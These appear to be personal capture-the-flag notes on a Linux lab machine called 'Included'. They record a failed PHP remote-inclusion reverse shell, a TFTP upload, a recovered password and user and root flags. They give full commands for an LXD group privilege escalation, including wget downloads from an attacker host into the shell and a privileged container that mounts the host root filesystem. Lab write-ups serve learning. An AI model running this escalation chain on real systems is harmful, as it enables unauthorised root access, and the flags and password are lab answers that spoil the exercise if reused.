 
### INCLUDED
#Linux 
![[Pasted image 20240528120723.png]]

![[Pasted image 20240528120808.png]]

![[Pasted image 20240528121314.png]]

Attempting to RFI a reverse shell in php failed.


**TFTP**

==`nmap -sU 10.129.145.135`==

![[Pasted image 20240528124956.png]]


![[Pasted image 20240528125952.png]]

The default configuration file for tftpd-hpa is /etc/default/tftpd-hpa. 

The default root directory where files will be stored is /var/lib/tftpboot

Set Up listener and launch curl command

![[Pasted image 20240528130129.png]]


![[Pasted image 20240528130207.png]]


![[Pasted image 20240528130445.png]]

mike : Sheffield19


The htpasswd file is used to store usernames and passwords for basic authentication of HTTP users.


![[Pasted image 20240528130613.png]]

![[Pasted image 20240528130631.png]]


user.txt : a56ef91d70cfbf2cdb8f454c006935a1

![[Pasted image 20240528131018.png]]

LXD is a management API for dealing with LXC containers on Linux systems. It will perform tasks for any members of the local lxd group. It does not make an effort to match the permissions of the calling user to the function it is asked to perform.

A member of the local “lxd” group can instantly escalate the privileges to root on the host operating system. This is irrespective of whether that user has been granted sudo rights and does not require them to enter their password. The vulnerability exists even with the LXD snap package.


==`apt install -y golang-go debootstrap rsync gpg squashfs-tools`==


```
git clone https://github.com/lxc/distrobuilder 
cd distrobuilder 
make
```
![[Pasted image 20240528132108.png]]



```
mkdir -p $HOME/ContainerImages/alpine/ 

cd $HOME/ContainerImages/alpine/ 

wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml 

sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.18
```


![[Pasted image 20240528133559.png]]


![[Pasted image 20240528133616.png]]


Serve directory and call the files in reverse shell

![[Pasted image 20240528133737.png]]

```
wget http://10.10.16.45:7000/rootfs.squashfs

wget http://10.10.16.45:7000/incus.tar.xz
```


![[Pasted image 20240528134453.png]]


```
lxc image import incus.tar.xz rootfs.squashfs --alias alpine

lxc image list
```

![[Pasted image 20240528134545.png]]


We must now set the security.privileged flag to true, so that the container has all of the privileges that the root file system has. We will also mount the root file system on the container in the /mnt folder.


```
lxc init alpine privesc -c security.privileged=true

lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```


![[Pasted image 20240528134901.png]]

```
lxc start privesc

lxc exec privesc /bin/sh
```



![[Pasted image 20240528135208.png]]


==`cd /mnt/root/root`==

![[Pasted image 20240528135349.png]]


root.txt : c693d9c7499d9f572ee375d4c14c7bcf

***
***
